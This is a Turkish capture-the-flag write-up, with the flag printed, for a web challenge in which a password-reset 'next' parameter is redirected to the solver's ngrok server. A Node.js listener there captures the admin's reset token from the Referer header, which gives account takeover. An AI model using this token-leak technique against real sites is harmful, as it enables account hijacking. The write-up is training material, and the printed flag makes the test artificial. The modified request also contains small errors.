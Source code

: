 # İsviçre Çakısı

|    |  |
| ------------- |:-------------:|
| Zorluk        | Orta(320 Puan)|
| Aşama         | Final         |
| Soru Türü     | Web Güvenliği |
| Yazar         | [Rednexie](https://github.com/Rednexie) |


## Soru Açıklaması
```
Sizi, bu İsviçre çakısı misali platforma yönlendiriyoruz.
```

### Sorunun alakalı olduğu alanlar
- Web Güvenliği

## İpuçları
```
Bu ipucu, sizden aldığı bir şeyle sizi çözüme yönlendirecek.
```

## Bayrak
```
BayrakBende{b4ll3r1n4_c4ppuc1n0}
```


# WriteUp

## Sorunun Anlaşılması ve Giriş

Soru ile ilgili bilgilerimiz:

- Bu web güvenliği sorusunda, bize urbatek kurumunun personeli tarafından kullanılan çok amaçlı bir platforma erişim verilmektedir.
- Duyuru olarak da gönderildiği üzere, kurumun yöneticileri kendilerine mail yoluyla gelecek herhangi bir bağlantıya düşünmeden tıklayacak kadar bilinçsizlerdir. 

## Web Sitesinin Araştırılması

Soru sitesine girdiğimizde, bizi birbirinden farklı iki platforma yönlendirmeyi sağlayan 2 platform karşılamaktadır.

- UrbaTasks: Urbatek firmasındaki personelin yapacağı görevlerin anlık olarak takibini yaptıkları platformdur.
- UrbaMail: Urbatek firmasındaki personelin şirket e-posta adreslerini kullanmalarına yarayan web arayüzüdür.

Urba Mail platformunu ziyaret ettiğimzde, urbatek.tr alan adı altında olan bir e-posta adresinin bize tahsis edilmiş olduğunu görürüz. Verilen e-post adresini kopyalayıp UrbaTasks platformun kaydolmamız gerekmektedir. Kaydımızı gerçekleştirdiğimizde beklediğimiz gibi görevleri yönetmemize yarayan bir platform karşımıza çıkmaktadır. Kayıt işleminin hemen sonrasında e-posta kutumuza baktığımızda ise bize kaydımızı tamamladığımıza dair bir e-posta gelmektedir.


Platformun diğer bir özelliği olan şifre sıfırlama özelliğini kullanabiliriz. Bunu yapıtğımızda e-posta adresimize bir şifre sıfırlama bağlantısı gönderilmektedir.

## Trafiğin İncelenmesi ve Zafiyet Tespiti Yapılması

Platformda gezinirken trafiği incelediğimzde, dikkatimizi çeken kısım şifre sıfırlama bölümü olmalıdır. Şifre sıfırlama kısmında kullanıcı adımızı girerek 'Şifre Sıfırlama Talebi Gönder' bölümüne bastığımızda, aşağıdaki post isteğinin sunucuya gittiğini görmekteyiz:


```formdata
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="username"

kullanici_adi
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="next"

http://soru.bayraksende.com:2999/login
------WebKitFormBoundarym7tRlaLaR4ztC8jN--
```


Yukarıdaki istekte kullanıcı adımızı içeren 'username', ve yönlendirileceğimiz bağlantıyı içeren 'next' olmak üzere 2 tane parametre bulunmaktadır. 



Ve gelen bağlantıdan şifre sıfırlama talebini başarıyla oluşturduğumuzda, 3 saniye sonra tam da istek gövdesindeki 'next' alanındaki bağlantıya yönlendirildiğimizi fark etmemiz gerekmektedir.



Yani kendimize gönderdiğimiz şifre sıfırlama isteğindeki 'next' alanını değiştirerek kendi e-postamıza gelen sıfırlama bağlantısını modifiye edebiliriz.




Soru metni ve duyurulardaki bilgileri hatırlarsak, platform yöneticilerinin kendi e-posta kutularına gelen herhangi bir bağlantıya tıklayacak kadar bilinçsiz oldukları belirtilmişti.
Peki, bu düzenlenen payload'da kullanıcı adını yöneticilerin kullanıcı adıyla değiştirir ve url kısmını kendi sunucumuza yönlendirecek şekilde değiştirirsek ne olur?


Şifre sıfırlama bağlantılarının formatını inceleyelim:

`http://soru.bayraksende.com:2999/reset-password?token=fc8eba6f-dfb3-4776-9a4c-503417303a78&next=http://soru.bayraksende.com:2999/login`


Bağlantı, post istek gövdemizde verdiğimiz 'next' alanını ve sunucu tarafında oluşturulması muhtemel olan bir şifre sıfırlama tokenını içeriyor.
Bu da şu anlama geliyor: Yöneticiyi kendi web sitemize yönlendirip, onun isteğinden gelen 'referer' başlığını alırsak buradan önce bulunduğu tam url'yi görürüz, ki bu da şifre sıfırlama tokenını içerdiği için admin kullanıcısı için şifre sıfırlama talebi açabilmemiz anlamına gelmektedir.


# Listener Sunucu Kurulumu ve Zafiyetin Sömürülmesi 

Öncelikle, admin kullanıcısının 'referer' başlığını almamız ve depolamamız için bir sunucuya ihtiyacımız olacak. Bunun için istersek dışarıya açık bir sunucumuz ya da hosting'imiz varsa onu, yoksa da kendi cihazımızı ngrok veya serveo gibi reverse proxyler aracılığıyla dışarı çıkararak kendi cihazımızı kullanabiliriz. Pipedream veya webhook gibi sistemlerle de yapmak mümkün, ben çözümde herkes için uygun olması sebebiyle kendi cihaızımı ngrok ile dışarı çıkararak kullanacağım.


Bunun için en kolay yol, kullanmayı en sevdiğimiz yazılım kütüphanesi ve diliyle bir web sunucusu yazmak, ve gelen isteklerdeki referer http başlığının değerini konsola yazdırmak. Ben rahat olduğum ve severek yazdığım için Node.js kullanacağım, siz ne isterseniz onu kullanabilirsiniz.

```js
const http = require('http');

const server = http.createServer((req, res) => {
    const now = new Date();
    const ip = req.socket.remoteAddress;
    const referer = req.headers.referer || 'none';
    console.log(`${now.toISOString()} - IP: ${ip}, Referer: ${referer}`);
    res.end();
});

server.listen(3000);
```

Kodu çalıştırdığımda, sunucum cihazın 3000 portunda hazır bekliyor olacak. Bu portu ngrok reverse proxy kullanarak dışarı çıkaracağım, ki tüm kullanıcılar dolayısıyla da adminimiz erişebilsin.

```sh
ngrok http 3000
```

Bu bize çıktı olarak tüm herkesin erişebileceği bir url verecektir, örneğin:


`https://xxxx-xxxx-xxxx-xxxx-xxxx.ngrok-free.app`

Şimdi, bu url'yi isteğimizin içine koyalım, ve kullanıcı adı kısmını admin ile değiştirelim:


```formdata
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="admin"

kullanici_adi
------WebKitFormBoundarym7tRlaLaR4ztC8jN
Content-Disposition: form-data; name="next"

https://xxxx-xxxx-xxxx-xxxx-xxxx.ngrok-free.app
------WebKitFormBoundarym7tRlaLaR4ztC8jN--
```

İsteğimizi gönderip sunucu konsolumuza baktığımzda, aşağıdakine benzer bir çıktı gelecektir:


`2025-05-30T12:34:56.789Z - IP: ::ffff:127.0.0.1, Referer: http://soru.bayraksende.com:2999/reset-password?token=fa18d596-6557-47c0-b148-bed4cb96de30&mext=...`


Bu url'nin uuid token'a olan kısmını alarak ziyaret ettiğimizde, admin kullanıcısı için şifre sıfırlama erişimi elde etmekteyiz. Şifremizi sıfırlayıp yeni şifremiz ile giriş yapabiliriz.




